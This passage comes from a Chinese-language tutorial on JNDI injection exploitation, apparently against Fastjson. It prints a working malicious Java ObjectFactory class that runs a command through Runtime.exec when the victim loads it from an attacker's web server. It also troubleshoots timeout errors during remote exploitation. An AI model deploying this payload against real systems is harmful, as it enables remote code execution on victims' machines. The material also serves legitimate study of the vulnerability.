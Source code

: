 同时启动一个WebServer提供Exploit.class下载。恶意代码可以放在构造方法中，也可以放在getObjectInstance(）方法中：

```java
public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        exec("xterm");
        return null;
    }

    public static String exec(String cmd) {
        try {
            String sb = "";
            BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
            BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
            String lineStr;
            while ((lineStr = inBr.readLine()) != null)
                sb += lineStr + "\n";
            inBr.close();
            in.close();
            return sb;
        } catch (Exception e) {
            return "";
        }
    }
}
```

# 3. 远程利用FAQ

网上很多PoC都是在本地测试的，然而在远程利用过程中可能会遇到一些坑，直接会导致利用失败，比如可能会遇到Timeout的错误。

## 3.1 为什么远程利用会出现Timeout？

使用JNDI注入Payload进行利用时，有时候发现目标确实反连到我们的RMI服务器了，却没有去下载WebServer上的恶意class文件。我们在局域网内使用Kali作为攻击者RMI服务器，复现一下攻击过程，往往会看到类似这样的Timeout的错误提示：

```bash
Exception in thread "main" javax.naming.ServiceUnavailableException [Root exception is java.rmi.ConnectException: Connection refused to host: 127.0.1.1; nested exception is: 
    java.net.ConnectException: Operation timed out]
    ...
    at fastjsonjndi.Victim.main(Victim.java:23)
Caused by: java.rmi.ConnectException: Connection refused to host: 127.0.1.1; nested exception is: 
    java.net.ConnectException: Operation timed out
    at sun.rmi.transport.tcp.TCPEndpoint.newSocket(TCPEndpoint.java:619)
    ...
    at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:462)
    ... 4 more
Caused by: java.net.ConnectException: Operation timed out
    at java.net.PlainSocketImpl.socketConnect(Native Method)
    ...
    at sun.rmi.transport.tcp.TCPEndpoint.newSocket(TCPEndpoint.java:613)
    ... 9 more
```

